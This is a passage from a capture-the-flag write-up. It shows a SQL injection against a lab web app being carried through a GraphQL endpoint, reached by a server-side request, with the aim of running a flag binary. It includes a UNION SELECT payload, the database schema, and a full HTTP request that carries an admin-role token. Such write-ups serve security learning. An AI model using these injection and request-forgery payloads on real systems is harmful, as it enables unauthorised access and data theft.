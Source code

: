<img src="https://github.com/blog-tamilctf/blog-tamilctf.github.io/blob/main/assets/img/sql.jpg?raw=true">

- We got through this ! now we need to somehow escalate this sqli to read the flag.
- The flag.txt was compiled as a binary named `/readflag`
- We need to call the binary through sqli?

#### SQLI write and EJS template injection:

- We have the db file given,we have 4 columns and 2 columns `name,department` are TEXT,hence it will reflect.

```
CREATE TABLE construction.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    name TEXT,
    department TEXT,
    isPresent BOOLEAN
);
```
- Forming the SQL query `' UNION SELECT 1,user(),database(),4-- -`

```
POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTcxNjIxMDUzMX0.2gwPTRqbPfj4Axbz2B3t4HNWHHdcgIXgTCcCyGaupW0 HTTP/1.1
Host: host:30586
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

url=http://0.0.0.0:1337/graphql?query={getDataByName(name:"John\n%20'%20UNION%20SELECT%201,user(),database(),4--%20-"){name%20department%20isPresent}}%26token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJyZXF1aXJlZFJvbGUiOiJhZG1pbiIsImlhdCI6MTcxNjIxMjM3M30.Cf49E4-_dHEoTBfMfplbKikF1ns-LDjWR5ftHG-9bfk
```
